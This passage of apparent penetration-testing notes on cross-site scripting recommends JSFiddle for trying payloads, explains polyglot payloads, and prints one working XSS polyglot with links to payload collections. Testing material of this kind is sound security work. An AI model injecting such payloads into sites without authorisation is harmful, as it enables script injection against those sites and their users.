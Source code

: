 
#### JavaScript Fiddle
```
This website is a sandbox environment for JavaScript useful for testing payloads.
https://jsfiddle.net/
```

#### Polyglots
Polyglots are payloads that can be injected and cover multiple different contexts that the payload can be injected into.
```
#https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

#### Resources

```
https://www.bugcrowd.com/blog/the-ultimate-guide-to-finding-and-escalating-xss-bugs/
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#filter-bypass-and-exotic-payloads
```

